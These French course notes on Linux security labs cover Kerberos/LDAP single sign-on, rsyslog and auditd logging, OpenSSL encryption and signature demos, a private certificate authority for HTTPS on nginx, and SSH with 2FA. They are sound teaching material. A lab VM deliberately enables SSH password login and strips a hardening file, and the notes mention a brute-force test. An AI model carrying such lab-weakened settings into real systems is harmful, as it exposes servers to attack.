sudo cat /etc/passwd | grep johnsudo cat /etc/group | grep johnEn résumé, ces deux commandes vérifient la présence de l'utilisateur dans les fichiers système.
Observation clé : identité centralisée : john n'apparaît ni dans /etc/passwd ni dans /etc/group → son identité vient du serveur LDAP, pas des fichiers locaux.
Gestion centralisée de l'authentification :
Authentification centralisée - login puis SSH sans réauthentification :

Voici les différentes commandes exécutées dans l'image précédente :
sudo loginidssh john@sso-service.hs.beEn résumé, cette commande se connecte à la machine distante.
idpwdEn résumé, cette commande affiche le répertoire courant.
Authentification centralisée - "tickets" sur client :

Voici les différentes commandes exécutées dans l'image précédente :
kinit johnEn résumé, cette commande récupère un ticket Kerberos.
klistEn résumé, cette commande affiche le ticket.
exitEn résumé, cette commande ferme la session.
klistEn résumé, cette commande vérifie que le ticket a disparu.
krbgt/HS.BE = TGT (phase 1) host/sso-service.hs.be = service ticket (phase 2)
Authentification centralisée - Contenu de la base des "principals" de Kerberos :
Sur Serveur !
Ici, on est dans la VM nommée "ni-server".

sudo kadmin.localEn résumé, cette commande ouvre l'administration Kerberos locale.
Démonstration d'échec - kdestroy :
Destruction des tickets puis tentative SSH :

Voici les différentes commandes exécutées dans l'image précédente :
klistEn résumé, cette commande affiche les tickets Kerberos présents dans le cache local (TGT + service tickets).
kdestroyEn résumé, cette commande supprime tous les tickets Kerberos du cache local (notamment le TGT).
klistssh john@sso-service.hs.beEn résumé, cette commande tente une connexion SSH vers le serveur. Si un TGT vaide est présent → authentification GGSAPI automatique (SSO). Sinon → demande le mot de passe.
L'échec rend le mécanisme tangible.
Sans TGT, impossible d'obtenir un service ticket → SSH redemande le mot de passe.
Le SSO repose entièrement sur la présence d'un TGT valide.
Ajout d'un utilisateur :

cat ldifs/add_user1.ldifEn résumé, cette commande affiche le fichier LDIF décrivant le nouvel utilisateur pour LDAP.

Voici les différentes commandes exécutées dans l'image précédente :
ldapadd -x -D cn=admin,dc=hs,dc=be -f ldifs/add_user1.ldif -WEn résumé, cette commande ajoute l'utilisateur à LDAP. Voici les différentes options et leurs explications :
-
-x : auth simple.
-
-D : DN de l'admin.
-
-f : fichier LDIF.
-
-W : demande le mot de passe de l'admin.
sudo kadmin.local -q "addprinc user1"En résumé, cette commande crée un utilisateur dans la base Kerberos.
Ici, on est dans la VM nommée "ni-client".

Voici les différentes commandes exécutées dans l'image précédente :
sudo loginidssh user1@sso-service.hs.beidBox Vagrant Logging et Monitoring :
-
central-log :
-
Box principale
-
Logging via rsyslog, journalctl, auditd
-
Monitoring via logwatch
Voici le Vagrantfile de cette VM :
# coding: utf-8 Vagrant.configure("2") do |config| config.vm.box = "ubuntu/jammy64" config.vm.network "private_network", ip: '172.28.128.5' config.vm.provision "file", source: "./users.txt", destination: "/home/vagrant/users.txt" config.vm.provision "file", source: "./watch-home-user1.rules", destination: "/home/vagrant/watch-home-user1.rules" config.vm.provision "file", source: "./10-server-centralisation.conf", destination: "/home/vagrant/10-server-centralisation.conf" config.vm.provision "shell", inline: <<-SHELL #!/bin/bash set -euo pipefail # Mise à jour du fuseau horaire - important pour bien interpréter les logs timedatectl set-timezone Europe/Brussels # Changement hostname hostnamectl set-hostname central-log.hs.be echo "172.28.128.5 central-log.hs.be" >> /etc/hosts # Accepte input du client dans le log mv /home/vagrant/10-server-centralisation.conf /etc/rsyslog.d/ systemctl restart rsyslog # Création des utilisateurs chmod go-rw ./users.txt adduser --quiet --disabled-password --shell /bin/bash --home /home/user1 --gecos "User1" user1 chpasswd < users.txt # Création du fichier très personnel echo "Mon fichier très personnel" > /home/user1/personnel.txt # Chargement des packages, en mode non-interactif(!) DEBIAN_FRONTEND=noninteractive apt-get update DEBIAN_FRONTEND=noninteractive apt-get install -y logwatch auditd nginx socat # Configuration de auditd pour synchronisation rapide sur le disque sed s/"flush = INCREMENTAL_ASYNC"/"flush = SYNC"/ /etc/audit/auditd.conf # Configuration de la règle pour auditd et démarrage auditd mv /home/vagrant/watch-home-user1.rules /etc/audit/rules.d/watch-home-user1.rules augenrules --check augenrules --load augenrules --check service auditd start systemctl enable auditd SHELL end -
-
client-log :
-
Box secondaire
-
Logs envoyés à central-log
Voici le Vagrantfile de cette VM :
# coding: utf-8 Vagrant.configure("2") do |config| config.vm.box = "ubuntu/jammy64" config.vm.network "private_network", ip: '172.28.128.4' config.vm.provision "shell", inline: <<-SHELL #!/bin/bash set -euo pipefail # Mise à jour du fuseau horaire - important pour bien interpréter les logs timedatectl set-timezone Europe/Brussels # Changement hostname hostnamectl set-hostname client-log.hs.be echo "172.28.128.4 client-log.hs.be" >> /etc/hosts # Route to server echo "172.28.128.5 central-log.hs.be" >> /etc/hosts # Route rsyslog vers serveur echo "*.* @@central-log.hs.be" > /etc/rsyslog.d/10-centralisation.conf systemctl restart rsyslog SHELL end -
Concepts de logging et de monitoring et pertinence pour la sécurité :
Concepts (voir Jason Andress) :
-
Logging : Garder des traces des événements principaux affectant un système.
-
Monitoring : Surveiller les paramètres de "santé" d'un système (disponibilité, performance, sécurité...).
Pertinence pour la sécurité :
Les bénéfices généraux sont :
-
débogage
-
expérience utilisateur
Les bénéfices spécifiques pour la sécurité sont :
-
aider à l'investigation en cas d'incident
-
non-répudiation
-
peur du gendarme
-
détection & prévention d'attaques
Faire que les utilisateurs répondent de leurs actes :
-
Pour un utilisateur convenablement :
-
identifié
-
authentifié
-
autorisé (?)
-
-
Assurer le bon suivi des règles...
-
...par conservation de traces
Logging - outils de base :
Principaux fichiers :
Ici, on est dans la VM nommée "logging-monitoring".
/var/log peut varier par distribution.

ls -l /var/logArchitecture (r)syslog :
https://www.youtube.com/watch?v=L9dxZs73F94

Contenu typique /var/log/syslog :
Exemple - manipulation de date ?

Voici les différentes commandes exécutées dans l'image précédente :
sudo timedatectl set-timezone Europe/BrusselsEn résumé, cette commande change le fuseau horaire du système.
sudo tail -n 10 /var/log/syslog | fold -w 80 -sContenu détaillé entrée :
-
Date : importance d'avoir une date faisant foi (!)
-
Host - important quand centralisation des logs
-
Process et [pid]
-
Message - parfois enrichi/transformé
Contenu typique /var/log/auth.log :
Exemple - sudo bien intentionné ?

Voici les différentes commandes exécutées dans l'image précédente :
sudo cat /home/user1/personnel.txtsudo tail -n 10 /var/log/auth.log | fold -w 80 -sConfiguration (r)syslog :

sudo cat /etc/rsyslog.conf
Voici les différentes commandes exécutées dans l'image précédente :
sudo cat /etc/rsyslog.d/50-default.conf | grep -v '#\|^$'logger -p local7.warning "Hello from local7"En résumé, cette commande envoie un message ver syslog :
-
local7 = facility
-
warning = niveau de gravité
En syslog, local0 à local7 sont des catégories personnalisables.
sudo cat /var/log/syslog | grep local7logger -p auth.warning "Hello from auth"En résumé, cette commande envoie un message au système de logs et simule un événement applicatif.
sudo cat /var/log/syslog | grep "Hello from auth"En résumé, cette commande vérifie si le message aparaît dans syslog.
sudo cat /var/log/auth.log | grep "Hello from auth"En résumé, cette commande cherche le même message dans auth.log.
logger -p local7.emerg "Alerte"Programmes n'utilisant pas (r)syslog en standard :
Exemple : nginx peut être changé, mais pas nécessairement une bonne idée.

Voici les différentes commandes exécutées dans l'image précédente :
cat /etc/nginx/nginx.conf | grep -e 'acces' -e 'error'En résumé, cette commande affiche le contenu du fichier de configuration principal de NGINX en filtrant contenant "acces" et "error".
sudo cat /var/log/syslog | grep nginxEn résumé, cette commande affiche les logs système et filtre les lignes contenant "nginx".
sudo cat /var/log/nginx/error.logsudo cat /var/log/nginx/access.logEn résumé, cette commande affiche le log d'accès HTTP.
systemd journal - alternative - avec DB plutôt que texte et "interface" :

Voici les différentes commandes exécutées dans l'image précédente :
sudo journalctl -u ssh | cut -b -90En résumé, cette commande affiche les logs du service SSH.
sudo journalctl --since=2024-01-01 --until=yesterday | cut -b -90En résumé, cette commande affiche les logs sur une période donnée.
Auditd- Audit deamon / Linux Auditing Framework :
La fonction de auditd est de capturer des événements de manière flexible sur le système.
-
actions sur des fichiers et des répertoires
-
appels systèmes
Exemple - fonction "watch" fichier :
https://www.baeldung.com/linux/auditd-monitor-file-access
Voici les différentes commandes exécutées dans l'image précédente :
sudo auditctl -lEn résumé, cette commande liste les règles actives.
sudo cat /home/user1/personnel.txtsu user1cat /home/user1/personnel.txtAudit logs - aussi /var/log/audit/audit.log - voir en particulier champ auid (!) :
sudo ausearch -k personnel-user1 -i | tail -n 10 | fold -w 80 -sEn résumé, cette commande recherche dans leslogs auditd :
-
-k : clé définie dans la règle
-
-i : interprétation lisible
Auditd - configuration :
Voici les différentes commandes exécutées dans l'image précédente :
sudo mv /home/vagrant/watch-home-user1.rules /etc/audit/rules.d/watch-home-user1.rulesCe fichier contient normalement des règles d'audit qui disent au système : Surveille tel fichier ou dossier et log toute modification
.
sudo augenrules --checkEn résumé, cette commande vérifie la validité des règles.
sudo augenrules --loadEn résumé, cette commande recharge les règles.
sudo augenrules --checksudo service auditd startEn résumé, cette commande active auditd au démarrage.
sudo systemctl enable auditdEn résumé, cette commande active le service auditd (daemon d'audit Linux) pour qu'il démarre automatiquement au boot et charge les règles définies dans /etc/audit/rules.d/. Ça ne le démarre pas immédiatement (pour ça qu'il faut start), mais ça l'active au démarrage
sudo cat /etc/audit/rules.d/watch-home-user1.rules | grep -v '^#'Auditd et environnements régulés - cartes de crédit :
cd /usr/share/doc/auditd/examples/rules
cat 30-pci-dss-v31.rulesLogging - Force probatoire :
Pour être en matière juridique, il faut (non exhaustif) :
-
avoir l'info ! - faire un logging pertinent
-
s'assurer des bonnes dates - NTP
-
s'assurer de la bonne protection des logs - auditd et centralisation
Logging - consolidation :
Architecture centralisée (r)syslog :
https://cruft.io/ports/centralised-logging-with-rsyslog/
Démo :
Ici, on est dans la VM nommée "logging-monitoring-client".
Voici les commandes exécutées dans l'image précédente :
sudo cat /etc/passwdsudo cat /var/log/auth.log | grep sudo | tail -n 6 | fold -w 80 -sIci, on est dans la VM nommée "logging-monitoring".
sudo cat /var/log/auth.log | grep sudo | tail -n 20 | fold -w 80 -sDémo - configuration - À sécuriser avec TLS ! :
Ici, on est dans la VM nommée "logging-monitoring-client".
sudo cat /etc/rsyslog.d/10-centralisation.confEn résumé, cette commande affiche la configuration de centralisation.
Ici, on est dans la VM nommée "logging-monitoring".
sudo cat /etc/rsyslog.d/10-server-centralisation.confOutils spécialisés :
-
Capacité à gérer un grand nombre de clients (100+ 1000+)
-
Capacité à gérer un très grand volume de logs
-
Capacité de recherche / visualisation
-
... ELK Stack :
-
(E)lastic Search - DB
-
(L)ogstach - ingress des sources (remplace/se combine avec modules rsyslog)
-
(K)ibana - interface graphique
-
Monitoring - outils de base :
Logwatch - consolidation & recherche anomalies - quotidien - envoi mail :
sudo logwatch --range todayLogwatch - configuration par défaut :
Fichiers couverts :
ls /usr/share/logwatch/default.conf/logfiles/En résumé, cette commande liste les fichiers surveillés par Logwatch.
Services couverts :
ls /usr/share/logwatch/default.conf/services/En résumé, cette commande liste les services analysés.
Monitoring - outils spécialisés :
OSSEC - Host Intrusion Detection System :
-
Vérification intégrité système (vérification hash fichiers clé)
-
Exploitation logs
-
Peut travailler sur réseau
-
Spécialisé sécurité
-
... pour mémoire
Crypto : base et SSL/TLS - Environnements de travail :
-
crypto :
-
À démarrer en premier.
-
Utilisé pour générer le certificat de l'autorité de certification.
-
Recopier le certificat ac.crt qui aura été généré (voir plus bas) et transféré sur votre ordinateur vers le directory de la deuxième box.
-
Utilisé pour signer les certificats "feuilles".
Voici le Vagrantfile de cette VM :
# coding: utf-8 Vagrant.configure("2") do |config| config.vm.box = "ubuntu/jammy64" config.vm.network "private_network", ip: '172.28.128.7' config.vm.provision "file", source: "./users.txt", destination: "/home/vagrant/users.txt" config.vm.provision "file", source: "./aes.sh", destination: "/home/vagrant/aes.sh" config.vm.provision "file", source: "./rsa.sh", destination: "/home/vagrant/rsa.sh" config.vm.provision "file", source: "./hash.sh", destination: "/home/vagrant/hash.sh" config.vm.provision "file", source: "./rsa-signature.sh", destination: "/home/vagrant/rsa-signature.sh" config.vm.provision "file", source: "./autorite-certification.sh", destination: "/home/vagrant/autorite-certification.sh" config.vm.provision "file", source: "./autorite-installation.sh", destination: "/home/vagrant/autorite-installation.sh" config.vm.provision "file", source: "./cle-demande-certificat.sh", destination: "/home/vagrant/cle-demande-certificat.sh" config.vm.provision "file", source: "./signe-certificat.sh", destination: "/home/vagrant/signe-certificat.sh" config.vm.provision "file", source: "./verifie-certificat.sh", destination: "/home/vagrant/verifie-certificat.sh" config.vm.provision "file", source: "./crypto-server.hs.be.conf", destination: "/home/vagrant/crypto-server.hs.be.conf" config.vm.provision "file", source: "./index.html", destination: "/home/vagrant/index.html" config.vm.provision "shell", inline: <<-SHELL #!/bin/bash set -euo pipefail # Mise à jour du fuseau horaire - important pour les certificats timedatectl set-timezone Europe/Brussels # Changement hostname hostnamectl set-hostname crypto-server.hs.be echo "172.28.128.7 crypto-server.hs.be" >> /etc/hosts # Création des utilisateurs chmod go-rw ./users.txt adduser --quiet --disabled-password --shell /bin/bash --home /home/user3 --gecos "User3" user3 chpasswd < users.txt # Création du fichier très personnel echo "Mon fichier très personnel" | sudo tee -a /home/user3/personnel.txt > /dev/null chown user3:user3 /home/user3/personnel.txt # Récupération aes.sh mv /home/vagrant/aes.sh /home/user3/aes.sh chown user3:user3 /home/user3/aes.sh chmod +x /home/user3/aes.sh # Récupération rsa.sh mv /home/vagrant/rsa.sh /home/user3/rsa.sh chown user3:user3 /home/user3/rsa.sh chmod +x /home/user3/rsa.sh # Récupération hash.sh mv /home/vagrant/hash.sh /home/user3/hash.sh chown user3:user3 /home/user3/hash.sh chmod +x /home/user3/hash.sh # Récupération rsa-signature.sh mv /home/vagrant/rsa-signature.sh /home/user3/rsa-signature.sh chown user3:user3 /home/user3/rsa-signature.sh chmod +x /home/user3/rsa-signature.sh # Rendre scripts TLS exécutables chmod +x ./*.sh # Chargement des packages, en mode non-interactif(!) DEBIAN_FRONTEND=noninteractive apt-get update DEBIAN_FRONTEND=noninteractive apt-get install -y nginx # Configuration Web Server cp /home/vagrant/crypto-server.hs.be.conf /etc/nginx/conf.d/ mkdir /var/www/crypto-server.hs.be mv /home/vagrant/index.html /var/www/crypto-server.hs.be/ SHELL end -
-
crypto-client :
-
À démarrer après.
Voici le Vagrantfile de cette VM :
# coding: utf-8 Vagrant.configure("2") do |config| config.vm.box = "ubuntu/jammy64" config.vm.network "private_network", ip: '172.28.128.8' config.vm.provision "file", source: "./ac.crt", destination: "/home/vagrant/ac.crt" config.vm.provision "file", source: "./autorite-installation.sh", destination: "/home/vagrant/autorite-installation.sh" config.vm.provision "shell", inline: <<-SHELL #!/bin/bash set -euo pipefail # Mise à jour du fuseau horaire - important pour les certificats sudo timedatectl set-timezone Europe/Brussels # Lien vers serveur echo "172.28.128.7 crypto-server.hs.be" >> /etc/hosts # Rendre scripts TLS exécutables sudo chmod +x ./*.sh SHELL end -
Types de cryptographie :
Disclaimer : Ceci n'est pas un cours de crypto.
https://owasp.org/www-project-top-ten/
Chiffrement symétrique :
-
Quoi ? Une même clé (= secret) chiffre et déchiffre.
-
Pourquoi ? Rapide - adapté aux gros volumes de données.
-
Limite : les deux parties doivent posséder le même secret.
Démo : AES-256-CBC avec openssl :
Ici, on est dans la VM nommée "crypto".
su user3cd ~./aes.shVoici le contenu du script `aes.sh` :
#! /usr/bin/bash -x
# Voir https://askubuntu.com/questions/60712/how-do-i-quickly-encrypt-a-file-with-aes
# Voir les détails sur la Key Derivation function (https://en.wikipedia.org/wiki/Key_derivation_function
# Contenu du fichier original
cat personnel.txt
# Encryption avec AES; -a pour output en base64
openssl aes-256-cbc -in personnel.txt -a -out personnel.encrypted -pbkdf2
# Fichier encrypté, base64
cat personnel.encrypted
# Décryptage
openssl aes-256-cbc -d -a -in personnel.encrypted -pbkdf2 -out personnel.decrypted
# Fichier décrypté
cat personnel.decryptedChiffrement asymétrique :
-
Quoi ? Deux clés : publique (chiffrer) et privée (déchiffrer).
-
Pourquoi ? Pas besoin de secret partagé au préalable.
-
Limite : lent - inadapté aux gros volumes.
./rsa.shVoici le contenu du script `rsa.sh` :
#! /usr/bin/bash -x
# Voir https://opensource.com/article/21/4/encryption-decryption-openssl
# Contenu du fichier original
cat personnel.txt
# Génération de la clé privée
openssl genrsa -out privatekey.pem 2048
# Génération de la clé publique
openssl rsa -in privatekey.pem -outform PEM -pubout -out publickey.pem
# Aperçu clé publique
cat publickey.pem
# encryption avec clé publique
openssl pkeyutl -encrypt -inkey publickey.pem -pubin -in personnel.txt -out personnel.rsa.encrypted
# decryptage avec clé private
openssl pkeyutl -decrypt -inkey privatekey.pem -in personnel.rsa.encrypted -out personnel.rsa.decrypted
# Contenu du fichier décrypté
cat personnel.rsa.decryptedHashage des données :
-
Quoi ? Fonction à sens unique : donnée → empreinte de taille fixe.
-
Pourquoi ? Vérifier l'intégrité : le moindre changement modifie le hash.
-
Limite : ne prouve pas qui a produit le message.
Démo : SHA-256 avec openssl :

./hash.shVoici le contenu du script `hash.sh` :
#! /usr/bin/bash -x
echo "Hello world!" | openssl dgst -sha256
echo "hello world!" | openssl dgst -sha256MAC - Message Authentication Code :
-
Quoi ? Hash calculé avec un secret partagé entre les deux parties.
-
Pourquoi ? Prouve l'intégrité et que l'émetteur connaît le secret.
-
≠ hash : sans le secret, impossible de forger le MAC.
-
≠ signature : pas de clé publique/privée - symétrique, donc rapide.
Démo : HMAC-SHA256 avec openssl :
Voici les différentes exécutées dans la commande précédente :
echo "Mon message" | openssl dgst -sha256 -hmac "secret-partage"echo "Mon message" | openssl dgst -sha256 -hmac "autre-secret"echo "Mon message" | openssl dgst -sha256Signature d'un message avec clé asymétrique :
-
Quoi ? Hash du message chiffré avec la clé privée de l'émetteur.
-
Pourquoi ? Prouve l'origine et l'intégrité du message.
-
Vérification : n'importe qui peut vérifier avec la clé publique.
./rsa-signature.shVoici le contenu du script `rsa-signature.sh` :
#! /usr/bin/bash -x
# Voir https://stackoverflow.com/questions/10782826/digital-signature-for-a-file-using-openssl
# Contenu du fichier original
cat personnel.txt
# Génération de la clé privée
openssl genrsa -out privatekey.pem 2048
# Génération de la clé publique
openssl rsa -in privatekey.pem -outform PEM -pubout -out publickey.pem
# Aperçu clé publique
cat publickey.pem
# Signature du message
openssl dgst -sha256 -sign privatekey.pem -out personnel.txt.signature personnel.txt
# Aperçu signature
# À améliorer pour être en base64
# cat personnel.txt.signature
# Vérification de la signature
openssl dgst -sha256 -verify publickey.pem -signature personnel.txt.signature personnel.txtCertificats digitaux :
-
Signature m'assure que le message vient bien de la personne qui possède la clé privée.
-
Comment m'assurer que cette personne est bien la personne q'elle prétend être ?
-
Solution :
-
Out-of-band, sinon.
-
Tiers de confiance.
-
S'assure que le possesseur de la clé est bien la "personne" attendue.
-
Signe un certificat en ce sens.
-
Autre partie doit présenter ce certificat.
-
Pertinence pour la sécurité des données :
Données "au repos" :
-
Confidentialité :
-
Encryption.
-
-
Intégrité :
-
Signature.
-
Transactions sur une blockchain.
-
(problème de l'ordonnnancement - voir mining).
-
Données "en transit" = réseau :
-
Confidentialité → Chiffrement.
-
Authenticité, Intégrité → Signature, Hash, Certificats.
Problème : Le chiffrement symétrique est rapide, mais comment partager le secret initial entre deux parties qui ne se connaissent pas ?

Solution : combiner les deux → TLS, SSH, VPN :
-
Crypto asymétrique pour établir un secret partagé (Diffie-Hellman).
-
Ce secret en crypto symétrique (AES) pour chiffrer - rapide.
-
MAC (HMAC) pour vérifier l'intégrité.
Voir par exemple : https://www.digitalocean.com/community/tutorials/understanding-the-ssh-encryption-and-connection-process.
Le schéma combiné en pratique :
| Étape | Rôle | Crypto utilisée |
|---|---|---|
| Établissement du secret | Échange de clé | Asymétrique (DH) |
| Chiffrement des données | Confidentialité | Symétrique (AES) |
| Vérification d'intégrité | Intégrité | MAC (HMAC-SHA256) |
| Identité du serveur | Authenticité | Certificat (RSA/ECDSA) |
Et concrètement ? Chaque protocole (TLS, SSH, VPN) implémente ce schéma à sa manière. Dans la suite du cours, on va montrer TLS.
Protection des données en elles-mêmes (SSL/TLS) :
Exemple HTTP(S) - rajout d'une couche de sécurité "autour" de HTTP :
-
Contexte :
-
Interactions avec sites internet.
-
(À priori, identité des hôtes pas "facile" à établir).
-
-
Motivation :
-
Confidentialité.
-
Intégrité.
-
Prévention attaque Man-in-the-middle : s'assurer de la bonne identité du site visité.
-
Exemple HTTP(S) - Initialisation - Public Key Infrastructure :
Exemple HTTP(S) - Utilisation :
Création d'une autorité de certification :
genpkey → clé privée RSA de l'AC.
-x509 → certificat auto-signé (Issuer = Subject).
./autorite-certification.sh acVoici le contenu du script `autorite-certification.sh` :
#! /usr/bin/bash -x
set -euo pipefail
# https://connect.ed-diamond.com/contenu-premium/openssl-quelques-commandes-a-connaitre-pour-manipuler-vos-certificats-ssl-tls
# Affichage de la version de openssl
openssl version
# Création clé privée pour autorité de certification
mkdir "${1}"
cd "${1}"
openssl genpkey -algorithm RSA -pkeyopt rsa_keygen_bits:4096 -out "${1}".key
chmod 0600 "${1}".key
# Création et affichage de la "requète de certificat" - auto-signé - résulte dans certificat
openssl req -new -x509 -days 3600 -key "${1}".key -out "${1}".crt
openssl x509 -noout -text -in "${1}".crt
cd ..Installation de l'autorité de certification :
-
Certificat AC copié dans le trust store système.
-
Partagé avec le client via /vagrant.
À faire sur serveur et client :
sudo ./autorite-installation.sh acVoici le contenu du script `autorite-installation.sh` :
#! /usr/bin/bash -x
set -euo pipefail
# Sans doute assez dépendant de la distribution
# https://ubuntu.com/server/docs/security-trust-store
sudo cp "${1}"/"${1}".crt /usr/local/share/ca-certificates
sudo update-ca-certificates
sudo cp "${1}"/"${1}".crt /vagrant # pour transmission au clientOn sort de la VM crypto avec exit et on copie le fichier ac.crt dans le dossier de la VM crypto-client avec la commande suivante :
cp ac.crt ../crypto-clientDemande de certification :
-
Nouvelle clé privée pour le serveur (distincte de celle de l'AC !).
-
req -new → CSR (demande), pas encore un certificat.
./cle-demande-certificat.sh serverVoici le contenu du script `cle-demande-certificat.sh` :
#! /usr/bin/bash -x
set -euo pipefail
# https://connect.ed-diamond.com/contenu-premium/openssl-quelques-commandes-a-connaitre-pour-manipuler-vos-certificats-ssl-tls
# Création clé privée pour l'entité
mkdir "${1}"
cd "${1}"
openssl genpkey -algorithm RSA -pkeyopt rsa_keygen_bits:4096 -out "${1}".key
chmod 0600 "${1}".key
# Création et affichage de la "requète de certificat"
openssl req -new -key "${1}".key -out "${1}".csr
openssl req -noout -text -in "${1}".csr
cd ..Signature du certificat du serveur :
-
L'AC signe avec sa clé ͖ Issuer (AC) ≠ Subject (serveur).
-
En réalité : vérification tag sans site, record DNS, mail@domain, check "in real life".
./signe-certificat.sh server acVoici le contenu du script `signe-certificat.sh` :
#! /usr/bin/bash -x
set -euo pipefail
# https://connect.ed-diamond.com/contenu-premium/openssl-quelques-commandes-a-connaitre-pour-manipuler-vos-certificats-ssl-tls
# signature du certificat de l'entité sur base de sa demande
#cd "${2}"
openssl x509 -req -in "${1}"/"${1}".csr -CA "${2}"/"${2}".crt -CAkey "${2}"/"${2}".key -CAcreateserial -out "${1}"/"${1}".crt -days 1800openssl x509 -noout -text -in "${1}"/"${1}".crt
#cd ..Vérification du certificat du serveur :
-
-CAfile → on vérifie contre le certificat de l'AC.
-
Chaîne : depth=0 (serveur) → depth=1 (AC, racine de confiance).
openssl verify -show_chain -verbose -CAfile ac/ac.crt server/server.crtEn résumé, cette commande vérifie que le certificat du serveur est signé par l'autorité de certification.
Configuration du serveur HTTP :
-
443 ssl → HTTPS (pas le port 80 de HTTP).
-
Le serveur présente son certificat + utilise sa clé privée.
-
Redémarrer nginx (sudo systemctl restart nginx) pour appliquer.
Configuration nginx :
sudo cat /etc/nginx/conf.d/crypto-server.hs.be.confserver {
listen 443 ssl;
server_name crypto-server.hs.be;
root /var/www/crypto-server.hs.be;
index index.html
gzip off;
ssl_certificate /home/vagrant/server/server.crt;
ssl_certificate_key /home/vagrant/server/server.key;
}Il ne faut pas oublier de redémarrer le service Nginx pour appliquer la configuration SSL avec la commande suivante :
sudo systemctl restart nginxInteraction HTTPS client avec serveur :
-
Même installation de l'AC côté client.
-
curl https:// → connexion sécurisée réussie.
Ici, on est dans la VM nommée "crypto-client".
Voici les différentes commandes exécutées dans l'image précédente :
sudo ./autorite-installation.sh accurl https://crypto-server.hs.beEn résumé, cette commande teste une connexion HTTPS sécurisée vers le serveur.
Certificats - Exemple utilisation Let's Encrypt :
Mise à jour enregistrement DNS pour pointer vers l'adresse du serveur :
Configuration d'un serveur web en HTTP :
Voici les différentes commandes exécutées dans l'image précédente :
cat /var/www/site2/index.htmlcat /etc/nginx/conf.d/client2.conf | head -n 13Accès en HTTP :
Demande de certification à Let's Encrypt :
Utilisation de la méthode webroot - dépôt par LE d'un fichier temporaire dans serveur web :
sudo certbot certonly --webroot -w /var/www/site2 -d client2.xpertsys.beEn résumé, cette commande demande un certificat TLS gratuit Let's Encrupt utilisant la méthode webroot.
Configuration d'un serveur web en HTTPS :
cat /etc/nginx/conf.d/client2.confAccès en HTTPS :
Crypto : SSH : Environnements de travail :
Machines virtuelles :
-
ssh-serveur - à démarrer en premier :
-
Accepte des connexions SSH entrantes.
-
Implémente divers protocoles pour accepter les connexions : mot de passe, 2FA et clé publique.
-
Implémente un mécanisme de défense contre les attaques de mot de passe par force brute.
Voici le Vagrantfile de cette VM :
# coding: utf-8 Vagrant.configure("2") do |config| config.vm.box = "ubuntu/jammy64" config.vm.network "private_network", ip: '172.28.128.11' config.vm.provision "shell", inline: <<-SHELL #!/bin/bash set -euo pipefail # Mise à jour du fuseau horaire timedatectl set-timezone Europe/Brussels # Changement hostname hostnamectl set-hostname ssh-server echo "172.28.128.11 ssh-server" >> /etc/hosts # Chargement des packages DEBIAN_FRONTEND=noninteractive apt-get update DEBIAN_FRONTEND=noninteractive apt-get install -y libpam-google-authenticator fail2ban # Configuration double authentification echo "auth required pam_google_authenticator.so" >> /etc/pam.d/sshd # Configuration sshd pour accepter les mots de passe et 2FA echo "PasswordAuthentication yes" >> /etc/ssh/sshd_config.d/PermitPasswordAuthentication.conf echo "ChallengeResponseAuthentication yes" >> /etc/ssh/sshd_config.d/PermitPasswordAuthentication.conf rm /etc/ssh/sshd_config.d/60-cloudimg-settings.conf # semble rajouté depuis 22.04.5 au moins et # désactive de manière prioritaire les mots de passe simples sudo systemctl restart sshd.service SHELL end -
-
ssh-client - à démarrer en deuxième lieu :
-
Se connecte.
-
Tente une attaque par force brute.
Voici le Vagrantfile de cette VM :
# coding: utf-8 Vagrant.configure("2") do |config| config.vm.box = "ubuntu/jammy64" config.vm.provision "shell", inline: <<-SHELL #!/bin/bash set -euo pipefail # Mise à jour du fuseau horaire timedatectl set-timezone Europe/Brussels # Changement hostname hostnamectl set-hostname ssh-client echo "172.28.128.11 ssh-server" >> /etc/hosts SHELL end -
Protection des données en elles-mêmes - SSH :
Accès sécurisé à machine distante :
-
Sécurisation (Confidentialité, Intégrité, Authentification) :
-
Plusieurs procédés.
-
Souvent avec clé privée/publique.
-
-
Fonctionnalités :
-
Shell.
-
Exécution d'une commande à distance.
-
"support" pour protocoles SCP, SFTP.
-
SSH - Les trois phase de la connexion :
| Phase | Qui ? | Mécanisme |
|---|---|---|
| Chiffrement du canal | - | DH + AES + MAC (comme TLS) |
| Auth. du serveur | Serveur → Client | Clé hôte (host key) - toujours |
| Auth. du client | Client → Serveur | Mot de passe OU clé publique |
Vérification out-of-band indispensable dans les deux sens :
Clé hôte (serveur) : le client doit vérifier la clé du serveur à la 1ère connexion - sinon, risque de MITM.
Clé publique (client) : l'admin du serveur doit vérifier la clé avant de l'importer dans authorized_keys - sinon, n'importe qui peut s'enregistrer.
Mot de passe vs clé client :
La clé résiste mieux aux attaques par force brute et évite les risques de réutilisation.
Configuration 2FA :
Voir cours sur gestion de l'identité et de l'authentification :
Ici, on est dans la VM nommée "ssh-server".
google-authenticatorSSH - Authentification du serveur au moyen de sa clé publique :
Vérification de la clé publique du serveur par moyen annexe sinon authentification pas prouvée :
Voici les différentes commandes exécutées dans l'image précédente :
cat /etc/ssh/ssh_host_ed25519_key.pubEn résumé, cette commande affiche la clé publique du serveur SSH.
Ici, on est dans la VM nomée "ssh-client".
ssh-keyscan -t ed25519 -H ssh-server >> ~/.ssh/known_hostsEn résumé, cette commande ajoute automatiquement la clé du serveur dans les hôtes connus.
cat .ssh/known_hostsSSH - Accès au serveur via mot de passe :
Ici, 2FA configuré :
ssh vagrant@ssh-serverEn résumé, cette commande permet au client de se connecter au serveur via SSH.
Authentification mutuelle via clé publique :
| Authentification | ||
| Du serveur |
Clé publique ~/.ssh/known_hosts |
Clé privée /etc/ssh/ssh_host_ed25519_key |
| De l'utilisateur |
Clé privée .vagrant/machines/default/virtualbox/private_key Souvent ~/.ssh/id_rsa |
Clé publique ~/.ssh/authorized_keys |
NB : les emplacements des clés peuvent varier selon les distributions ou le cas d'usage.
SSH - génération de la clé privée du client :
Clé à bien protéger :
ssh-keygenEn résumé, cette commande génère une paire de clés SSH (privée + publique).
SSH - import de la clé publique dans le serveur :
À faire de manière sécurisée sinon authenticité non prouvée :
Voici les différentes commandes exécutées dans l'image précédente :
ssh-keygen -yEn résumé, cette commande extrait la clé publique à partir de la clé privée.
Ici, on est dans la VM nommée "ssh-server".
sudo nano ~/.ssh/authorized_keysEn résumé, cette commande édite le fichier contenant les clés publiques autorisées à se connecter.
ls -la .ssh/authorized_keyscat .ssh/authorized_keysSSH - Accès au serveur au moyen de la clé privée :
PAS de mot de passe requis :
Ici, on est dans la VM nommée "ssh-client".
ssh vagrant@ssh-serverSSH - comme "support pour SCP, SFTP" :
Échange de fichier sécurisé :
Voici les différentes commandes exécutées dans l'image précédente :
